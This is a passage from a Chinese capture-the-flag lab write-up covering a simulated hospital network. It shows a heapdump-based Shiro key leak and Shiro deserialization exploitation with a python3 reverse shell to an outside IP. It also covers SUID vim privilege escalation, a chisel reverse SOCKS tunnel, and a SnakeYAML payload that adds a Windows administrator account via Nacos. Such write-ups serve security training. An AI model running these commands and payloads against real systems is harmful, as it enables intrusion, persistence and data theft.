

# Hospital

在这个场景中，你将扮演一名渗透测试工程师，被派遣去测试某家医院的网络安全性。你的目标是成功获取所有服务器的权限，以评估公司的网络安全状况。该靶场共有 4 个 flag，分布于不同的靶机。

<!-- truncate -->

:::info

Tags

- 内网渗透
- Nacos
- Shiro
- Fastjson
- Decrypt

:::

```plaintext title="入口点"
39.98.116.141
```

## 入口点探测

```plaintext
start infoscan
39.98.116.141:22 open
39.98.116.141:8080 open
[*] alive ports len is: 2
start vulscan
[*] WebTitle http://39.98.116.141:8080 code:302 len:0      title:None 跳转 url: http://39.98.116.141:8080/login;jsessionid=F56DD760EA13EF7948D3B0BE8D1372C4
[*] WebTitle http://39.98.116.141:8080/login;jsessionid=F56DD760EA13EF7948D3B0BE8D1372C4 code:200 len:2005   title: 医疗管理后台
[+] PocScan http://39.98.116.141:8080 poc-yaml-spring-actuator-heapdump-file
```

扫一下目录

```plaintext
[21:53:39] 200 -    1KB - /actuator
[21:53:39] 200 -   20B  - /actuator/;/caches
[21:53:39] 200 -   15B  - /actuator/;/health
[21:53:40] 200 -   93KB - /actuator/;/conditions
[21:53:40] 200 -   74KB - /actuator/;/beans
[21:53:40] 200 -    2B  - /actuator/;/info
[21:53:40] 200 -    8KB - /actuator/;/configprops
[21:53:40] 200 -  749B  - /actuator/;/metrics
[21:53:40] 200 -   20KB - /actuator/;/mappings
[21:53:40] 200 -   54B  - /actuator/;/scheduledtasks
[21:53:40] 200 -   53KB - /actuator/;/loggers
[21:53:40] 200 -   20B  - /actuator/caches
[21:53:40] 200 -    8KB - /actuator/configprops
[21:53:40] 200 -   15B  - /actuator/health
[21:53:41] 200 -    2B  - /actuator/info
[21:53:41] 200 -  749B  - /actuator/metrics
[21:53:41] 200 -   20KB - /actuator/mappings
[21:53:41] 200 -   54B  - /actuator/scheduledtasks
[21:53:41] 200 -   93KB - /actuator/conditions
[21:53:41] 200 -   74KB - /actuator/beans
[21:53:41] 200 -  127KB - /actuator/;/threaddump
[21:53:41] 200 -   53KB - /actuator/loggers
[21:53:41] 200 -  126KB - /actuator/threaddump
[21:53:44] 200 -  118MB - /actuator/;/heapdump
[21:53:46] 200 -   34MB - /actuator/heapdump
[21:54:29] 200 -    2KB - /login
```

发现存在 heapdump 泄露，使用 [whwlsfb/JDumpSpider: HeapDump 敏感信息提取工具](https://github.com/whwlsfb/JDumpSpider) 进行分析

```bash
┌──(randark ㉿ kali)-[~/tmp]
└─$ java -jar ~/tools/JDumpSpider-1.1-SNAPSHOT-full.jar ~/tmp/heapdump
===========================================
CookieRememberMeManager(ShiroKey)
-------------
algMode = CBC, key = GAYysgMQhG7/CzIJlVpR2g==, algName = AES
```

那就很明显了，打 shiro 反序列化

## 入口点 shiro 反序列化

直接利用工具



利用 CommonsBeanutils1 链子进行攻击，直接利用环境已有的 pytohn3 反弹 shell

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("8.129.29.180",9111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

成功收到回连

```bash
(remote) app@web01:/home/app$ whoami
app
```

## 入口点 提权

基于 PEASS-ng 进行探测

```plaintext
# 1
Vulnerable to CVE-2021-3560

# 2 suid
/usr/bin/vim.basic
/usr/bin/su
/usr/bin/newgrp
/usr/bin/staprun
/usr/bin/at
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/stapbpf
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/mount
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
```

其中 `/usr/bin/vim.basic` 就是 vim 程序，可以直接提权

参考 [vim | GTFOBins](https://gtfobins.github.io/gtfobins/vim/)

最终成功得到root权限

```bash
(remote) app@web01:/tmp$ /usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
(remote) root@web01:/tmp$ whoami
root
(remote) root@web01:/tmp$ whoami
root
(remote) root@web01:/tmp$ cat /root/flag/flag01.txt
sh: 5: catt/flag/flag01.txt: not found
(remote) root@web01:/tmp$ cat /root/flag/flag01.txt
O))     O))                              O))             O))
O))     O))                          O)  O))             O))
O))     O))   O))     O)))) O) O))     O)O) O)   O))     O))
O)))))) O)) O))  O)) O))    O)  O)) O))  O))   O))  O))  O))
O))     O))O))    O))  O))) O)   O))O))  O))  O))   O))  O))
O))     O)) O))  O))     O))O)) O)) O))  O))  O))   O))  O))
O))     O))   O))    O)) O))O))     O))   O))   O)) O)))O)))
                            O))                             
flag01: flag{a5d80f8e-3aca-46f0-b686-2120183080b0}
```

## 内网探测

```plaintext
(remote) app@web01:/tmp$ ifconfig 
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.30.12.5  netmask 255.255.0.0  broadcast 172.30.255.255
        inet6 fe80::216:3eff:fe31:aa0  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:31:0a:a0  txqueuelen 1000  (Ethernet)
        RX packets 134410  bytes 149624849 (149.6 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 64379  bytes 54100576 (54.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1356  bytes 117711 (117.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1356  bytes 117711 (117.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

使用fscan进行扫描

```bash
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.30.12.6     is alive
(icmp) Target 172.30.12.5     is alive
(icmp) Target 172.30.12.236   is alive
[*] Icmp alive hosts len is: 3
172.30.12.6:139 open
172.30.12.6:135 open
172.30.12.236:22 open
172.30.12.5:22 open
172.30.12.6:8848 open
172.30.12.236:8080 open
172.30.12.5:8080 open
172.30.12.6:445 open
172.30.12.236:8009 open
[*] alive ports len is: 9
start vulscan
[*] WebTitle http://172.30.12.5:8080   code:302 len:0      title:None 跳转url: http://172.30.12.5:8080/login;jsessionid=00236AC1CDAD331B40996039D6B45AE9
[*] NetInfo 
[*]172.30.12.6
   [->]Server02
   [->]172.30.12.6
[*] NetBios 172.30.12.6     WORKGROUP\SERVER02            
[*] WebTitle http://172.30.12.5:8080/login;jsessionid=00236AC1CDAD331B40996039D6B45AE9 code:200 len:2005   title:医疗管理后台
[*] WebTitle http://172.30.12.236:8080 code:200 len:3964   title:医院后台管理平台
[*] WebTitle http://172.30.12.6:8848   code:404 len:431    title:HTTP Status 404 – Not Found
[+] PocScan http://172.30.12.5:8080 poc-yaml-spring-actuator-heapdump-file 
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos 
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos-v1-auth-bypass 
```

建立内网代理

```bash
# vps
root@jmt-projekt:~# ./tools/chisel_1.10.1/chisel_1.10.1_linux_amd64 server -p 9111 --reverse
2025/01/31 22:29:55 server: Reverse tunnelling enabled
2025/01/31 22:29:55 server: Fingerprint aJ0gszNkS6fbIPXignmil8GEMz9HIqldsgbf2UnVmMA=
2025/01/31 22:29:55 server: Listening on http://0.0.0.0:9111

# target
(remote) app@web01:/tmp$ ./chisel_1.10.1_linux_amd64 client 8.129.29.180:9111 R:0.0.0.0:10000:socks &
[1] 19534
2025/01/31 22:30:40 client: Connecting to ws://8.129.29.180:9111
2025/01/31 22:30:40 client: Connected (Latency 51.577505ms)
```

## 172.30.12.6 Nacos

直接使用[charonlight/NacosExploitGUI: Nacos漏洞综合利用GUI工具](https://github.com/charonlight/NacosExploitGUI)进行利用


尝试进行yaml反序列化，使用[artsploit/yaml-payload: A tiny project for generating SnakeYAML deserialization payloads](https://github.com/artsploit/yaml-payload)

```java
Runtime.getRuntime().exec("net user randark randark 123 /add");
Runtime.getRuntime().exec("net localgroup Administrators randark /add");
```

编译jar包

```bash
PS D:\_Exps\yaml-payload> javac src/artsploit/AwesomeScriptEngineFactory.java
PS D:\_Exps\yaml-payload> jar -cvf exp.jar -C src/ .         
已添加清单
正在添加: artsploit/(输入 = 0) (输出 = 0)(存储了 0%)
正在添加: artsploit/AwesomeScriptEngineFactory.class(输入 = 1686) (输出 = 711)(压缩了 57%)
正在添加: artsploit/AwesomeScriptEngineFactory.java(输入 = 1655) (输出 = 424)(压缩了 74%)
正在忽略条目META-INF/
正在添加: META-INF/services/(输入 = 0) (输出 = 0)(存储了 0%)
正在添加: META-INF/services/javax.script.ScriptEngineFactory(输入 = 36) (输出 = 38)(压缩了 -5%)
```


